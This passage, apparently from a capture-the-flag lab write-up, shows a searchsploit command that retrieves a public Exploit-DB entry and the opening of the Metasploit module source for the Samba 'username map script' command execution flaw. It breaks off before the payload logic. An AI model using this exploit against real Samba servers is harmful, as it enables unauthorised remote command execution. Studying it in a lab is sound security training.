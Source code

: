 #### Script Analysis

To understand what’s going on, I’ll grab the source for the exploit:

    
    
    root@kali# searchsploit -m exploits/unix/remote/16320.rb
      Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/16320
         Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators
    
    Copied to: /root/hackthebox/forwardslash-10.10.10.183/16320.rb
    

It’s pretty short:

    
    
    ##
    # $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
    ##
    
    ##
    # This file is part of the Metasploit Framework and may be subject to
    # redistribution and commercial restrictions. Please see the Metasploit
    # Framework web site for more information on licensing and terms of use.
    # http://metasploit.com/framework/
    ##
    
    require 'msf/core'
    
    class Metasploit3 < Msf::Exploit::Remote
            Rank = ExcellentRanking
    
            include Msf::Exploit::Remote::SMB
    
            # For our customized version of session_setup_ntlmv1
            CONST = Rex::Proto::SMB::Constants
            CRYPT = Rex::Proto::SMB::Crypt
    
            def initialize(info = {})
                    super(update_info(info,
                            'Name'           => 'Samba "username map script" Command Execution',
                            'Description'    => %q{
                                            This module exploits a command execution vulnerability in Samba
                                    versions 3.0.20 through 3.0.25rc3 when using the non-default
                                    "username map script" configuration option. By specifying a username
                                    containing shell meta characters, attackers can execute arbitrary
                                    commands.
    